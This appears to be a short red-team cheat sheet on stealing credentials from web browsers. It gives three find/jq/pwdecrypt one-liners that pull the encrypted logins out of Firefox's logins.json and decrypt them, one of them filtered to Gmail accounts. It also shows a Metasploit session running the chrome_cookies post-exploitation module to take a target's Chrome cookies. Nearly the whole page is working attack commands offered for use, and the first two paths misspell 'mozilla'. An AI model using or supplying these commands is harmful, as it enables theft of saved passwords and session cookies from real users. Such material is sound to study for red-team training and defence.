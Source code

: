 # Web Browsers

## 01 - Living off the Land

TODO: Fill this info

```
$ find -L ~/.mozila/firefox/<directory>.default-<esr | release> -name 'logins.json' \
-execdir sh -c 'jq '"'"'.logins | .[] | "\(.encryptedUsername)\n\(.encryptedPassword)"'"'"' -r "$1" | pwdecrypt -d .' -- {} \;
```

```
$ find -L ~/.mozila/firefox/<directory>.default-<esr | release> -name 'logins.json' \
-execdir sh -c 'jq '"'"'.logins | .[] | select(.hostname | endswith("gmail.com")) | "\(.encryptedUsername)\n\(.encryptedPassword)"'"'"' -r "$1" | pwdecrypt -d .' -- {} \;
```

```
$ find -L ~/.mozilla/firefox/*.default* -name 'logins.json' \
  -execdir sh -c 'jq '"'"'.logins | .[] | "\(.encryptedUsername)\n\(.encryptedPassword)"'"'"' -r "$1" | pwdecrypt -d .' -- {} \;
```

## 02 - Metasploit

```
msf > use post/multi/gather/chrome_cookies

msf post(multi/gather/chrome_cookies) > options 

Module options (post/multi/gather/chrome_cookies):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CHROME_BINARY_PATH                      no        The path to the user's Chrome binary (leave blank to use the default for the OS)
   REMOTE_DEBUGGING_PORT  9222             no        Port on target machine to use for remote debugging protocol
   SESSION                                 yes       The session to run this module on
   WRITEABLE_DIR                           no        Where to write the html used to steal cookies temporarily, and the cookies. Leave blank to use the default for the OS (/tmp or AppData\Local\Temp)


View the full module info with the info, or info -d command.

msf post(multi/gather/chrome_cookies) > run session=<session_ID>
```

---
## References

### Red Team Guides

- [Red Team Guides: Methods for Stealing Password in Browser](https://blog.redteamguides.com/methods-for-stealing-password-in-browser)